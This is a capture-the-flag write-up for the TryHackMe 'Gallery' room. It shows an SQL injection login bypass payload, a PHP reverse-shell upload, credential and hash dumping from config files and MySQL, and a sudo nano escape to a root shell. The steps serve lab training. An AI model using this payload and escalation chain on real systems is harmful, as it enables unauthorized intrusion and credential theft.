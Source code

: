 ```bash
# PLATFORM          . THM
# CTF NAME          . Gallery
# DESCRIPTION       . Try to exploit our image gallery system
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/gallery666
```

```
sudo nmap -sSVC -T5 -p- 10.10.102.136 -oN Gallery
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Simple Image Gallery System
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

#### PORT 80 

- This website hosts the default apache installation page ; I inspected only the soure code and there wasn't anything out of the ordinary.

#### PORT 8080

- We land on a login panel that reveals that the CMS used is called `Simple Image Gallery`. 

- I tried using the `admin:admin` default credentials but that didn't work. However, I decided to try some SQL Injection payloads and I was able to log in using `admin' or '1'='1'#` as username and whatever as password (even an empty string should work. )

- I quickly noticed the `Albums` page, with some already created. The `Upload` button seems to allow us to add images to the albums.

- However, I tried uploading the classic PHP reverse shell and I got a reverse shell after setting up my listener.

- Now that we're under `www-data`, I stabilised the shell and I took a look around the system ; 

```
www-data@gallery:/var/www/html/gallery$ cat /etc/passwd | grep home
```

```
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
mike:x:1001:1001:mike:/home/mike:/bin/bash
```

- `Mike` seems to be the only user on the system, and we probably need to escalate our privileges to `mike` first before attempting to get `root`. 

- Let's take a look at the CMS's config files. I went to `/var/www/html/Gallery` and did a `ls -l *`

- The following block of output got my attention.

```
classes:
total 36
-rwxr-xr-x 1 www-data www-data  731 Apr 23  2021 DBConnection.php
-rwxr-xr-x 1 www-data www-data 1383 Aug  9  2021 Login.php
-rwxr-xr-x 1 www-data www-data 9253 Aug 11  2021 Master.php
-rwxr-xr-x 1 www-data www-data 4723 Jun 28  2021 SystemSettings.php
-rwxr-xr-x 1 www-data www-data 5366 Aug  9  2021 Users.php
```

- Reading `DBConnection.php`, we find out that the credentials are defined in the `initialize.php` file from the root `Gallery` directory.

```
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da{REDACTED}','last_login'=>'','date_updated'=>'','date_added'=>'');


if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"{REDACTED}");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

- There seems to be a developer account defined too, `dev_oretnom` with the hash from the above.

- I tried the credentials found above with mysql

```bash
mysql -u gallery_user -p
```

- After successfully logged in, I used the following commands to dump the hashes of the current users

```
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| gallery_db         |
| information_schema |
+--------------------+
```

```
SHOW TABLES;
+----------------------+
| Tables_in_gallery_db |
+----------------------+
| album_list           |
| images               |
| system_info          |
| users                |
+----------------------+
```

```
SELECT * from users;
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                                   | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | a228b12a08b6527e7978cbe5d914531c | uploads/1629883080_1624240500_avatar.png | NULL       |    1 | 2021-01-20 14:02:37 | 2021-08-25 09:18:12 |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
```

- The admin hash is not relevant to us anymore, since we already got access to the CMS using SQL Injection. I was hoping that I find the credentials of mike here, too.

- This is when I decided to look around for usual privilege escalation vectors and backups on the system.

- During my search, I came across `/var/backups` directory that contains `mike_home_backup`. 

- Then, I tried my luck with `grep -ri "pass" .` and I there it was

```
./.bash_history:sudo -l{REDACTED}
./documents/accounts.txt:Netflix : mike@gmail.com:123456789pass
```

- As `mike`, we can run `(root) NOPASSWD: /bin/bash /opt/rootkit.sh` 

```
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

- Alright. For the options `versioncheck`, `update` and `list`, `/usr/bin/rkhunter` is executed as root ; 
- However, for `read` option, `/bin/nano` is executed instead. But `/bin/nano` can be used to escalate privileges to a root shell:

```
mike@gallery:/var/backups/mike_home_backup$ sudo /bin/bash /opt/rootkit.sh
Would you like to versioncheck, update, list or read the report ? read

<CTRL + R>
<CTRL + X>

reset; sh 1>&0 2>&0

# whoami
root
```

- The user flag is in `/home/mike/user.txt`.
- The root flag is in `/root/root.txt`.

